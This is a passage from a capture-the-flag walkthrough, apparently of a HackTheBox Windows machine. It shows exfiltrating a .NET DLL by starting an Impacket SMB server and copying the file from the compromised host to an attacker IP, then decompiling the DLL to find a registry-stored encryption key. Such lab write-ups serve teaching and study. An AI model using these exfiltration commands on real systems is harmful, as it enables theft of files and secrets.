 #### Exfil

I’ll start an SMB server on my host using Impacket’s `smbserver.py`:

```

oxdf@hacky$ smbserver.py -smb2support -username oxdf -password oxdf share `pwd`
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Now on Appsantiy I’ll connect to the share and copy the file into it:

```

PS C:\> net use \\10.10.14.6\share /u:oxdf oxdf
The command completed successfully.
PS C:\> copy \inetpub\ExaminationPanel\ExaminationPanel\bin\examinationManagement.dll \\10.10.14.6\share\

```

I’ve got the file on my system:

```

oxdf@hacky$ file ExaminationManagement.dll 
ExaminationManagement.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows

```

#### Reversing

My tool of choice at the moment for reversing .NET binaries is [DotPeek](https://www.jetbrains.com/decompiler/), though if I wanted to stay on a Linux VM I could use [ILSpy](https://github.com/icsharpcode/ILSpy).

I’ll open it up, and take a look:

![image-20240301171747299](/img/image-20240301171747299.png)

Looking at `index`, there are functions related to encryption / decryption:

![image-20240301171827229](/img/image-20240301171827229.png)

`RetrieveEncryptionKeyFromRegistery` is an interesting sounding function:

```

    private string RetrieveEncryptionKeyFromRegistry()
    {
      try
      {
        using (RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("Software\\MedDigi"))
        {
          if (registryKey == null)
          {
            ErrorLogger.LogError("Registry Key Not Found");
            this.Response.Redirect("Error.aspx?message=error+occurred");
            return (string) null;
          }
```